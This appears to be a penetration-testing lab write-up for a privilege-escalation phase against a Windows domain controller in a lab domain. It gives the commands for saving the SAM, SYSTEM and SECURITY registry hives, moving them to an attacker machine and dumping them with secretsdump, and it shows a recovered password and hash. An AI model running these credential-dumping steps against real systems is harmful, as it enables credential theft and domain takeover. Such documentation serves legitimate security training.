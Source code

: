 ### Phase 4: Privilege Escalation

MITRE ATT&CK Techniques:
- T1003.001 – OS Credential Dumping: LSASS Memory
- T1003.004 – OS Credential Dumping: LSA Secrets
- T1003.005 – OS Credential Dumping: Cached Domain Credentials

Objective:
----------
Elevate privileges from a low-privileged user (`bob`) to Domain Admin or equivalent by extracting credentials or secrets from the system.

Lab Setup:
----------
- Attacker Machine: Kali Linux
- Target Machine: Windows Server 2019 (Domain Controller)
- User Compromised: bob@corp.local
- Privileges Escalated: Domain Admin

Steps and Observations:
------------------------

1. **Verified Privilege Rights of the Compromised User**
   Command:


whoami /priv


Result:


User had several high-level privileges enabled:

* SeDebugPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeTakeOwnershipPrivilege
* SeImpersonatePrivilege



2. **Confirmed Domain Admin Group Membership**
Command:


net user bob /domain


Result:


Global Group memberships:
\*Domain Users
\*Domain Admins



3. **Exported the Windows Registry Hives from Target**
Commands run on the compromised machine:


reg save hklm\sam C:\Users\Public\sam.save
reg save hklm\system C:\Users\Public\system.save
reg save hklm\security C:\Users\Public\security.save



4. **Transferred Registry Files to Attacker Machine**
Method used:
- Hosted an HTTP server using `python3 -m http.server 8000`
- Downloaded files via the browser or authenticated SMB share

5. **Dumped Credentials using secretsdump.py**
Command:


python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL



Output Highlights:
- Extracted plaintext password: `mr404`
- Found cached hash: `aad3b435b51404eeaad3b435b51404ee:e16f9ff726e5145d3b7a379c5363d098`
- Dumped DPAPI system keys
- Retrieved sensitive machine account secrets and LSA secrets

Note:
- SAM hash extraction failed due to minor corruption (`regf` magic mismatch), but LSA and cached credentials were still recovered.

Evidence:
---------
- Screenshots were taken for each command and output.
- `secretsdump` full output was saved in a `.txt` file.
- Registry hive files were successfully exfiltrated and analyzed.
- Provided the "loot" folder with hive files

Conclusion:
-----------
Phase 4 was successfully completed. The user `bob` had Domain Admin privileges, confirmed via enumeration. We exploited this by dumping LSA secrets and cached credentials from the DC registry hives. This allows us to maintain persistence and move laterally within the domain. The attack chain is now ready to proceed to **Phase 5: Credential Access and Lateral Movement**.
```
